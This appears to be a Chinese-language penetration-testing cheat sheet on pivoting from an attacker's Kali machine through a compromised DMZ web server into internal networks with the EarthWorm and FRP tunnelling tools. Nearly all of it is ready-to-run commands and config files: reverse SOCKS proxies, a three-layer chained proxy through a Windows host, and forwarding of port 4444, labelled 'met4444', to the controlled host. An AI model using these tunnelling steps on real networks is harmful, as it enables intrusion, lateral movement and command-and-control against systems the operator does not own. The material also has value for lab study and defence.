 ## EW

### socks代理

Kali  <---->  Web1  <---->  内部网络

在攻击机Kali上执行

```
./ew_for_linux64 -s rcsocks -l 1080 -e 1234
```

在DMZ区域的Web1上传ew_for_linux64，并执行如下命令：

```bash
./ew_for_linux64 -s rssocks -d 172.16.250.50 -e 1234
```

这时就可以通过攻击机的1080端口进行socks代理

### 端口转发


### 三层动态代理

Kali  <---->  Web1  <---->  PC1

首先攻击机Kali上执行如下命令添加一个转接隧道，监听1090端口，并将1090端口收到的代理请求发送给1235端口，执行命令：

```bash
/ew_for_linux64 -s lcx_listen -l 1090 -e 1235
```


然后在第二层网络的Windows服务器`PC1`上传ew_for_Win.exe，并利用ssocksd方式启动999端口的正向socks代理，执行命令：

```bash
ew_for_Win.exe -s ssocksd -l 999
```

最后，在DMZ区域的Ubuntu 18`Web1`上传ew_for_linux64并利用lcx_slave方式，将攻击机`Kali`的1235端口与第二层网络Windows 7的999端口连接起来，执行命令：

```bash
./ew_for_linux64 -s lcx_slave -d 172.16.250.50 -e 1235 -f 192.168.52.30 -g 999
```

## FRP

### socks代理

Kali  <---->  Web1  <---->  内部网络

在攻击机Kali上执行

```
./frps -c frps.ini
```

`frps.ini`文件内容为

```text
[common]
bind_addr = 0.0.0.0
bind_port = 7000
tls_only = true
```

在DMZ区域的Web1上传frpc，并执行如下命令：

```bash
./frpc -c frpc.ini
```

`frpc.ini`文件内容为

```text
[common]
server_addr = 172.16.250.128
server_port = 7000
tls_enable = true

[socks5]
type = tcp
remote_port = 1080
plugin = socks5
```

这时就可以通过攻击机的1080端口进行socks代理

### 端口转发

Kali  <---->  Web1  <---->  内部网络

把`Kali`监听端口4444转发至`Web1`（被控主机）的4444端口上

```
[common]
bind_addr = 0.0.0.0
bind_port = 7000
```

kali上运行frpc

```text
[common]
server_addr = 172.16.250.128
server_port = 7000

[met4444]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 4444
```

这时就将kali的4444端口绑定到了被控主机的4444端口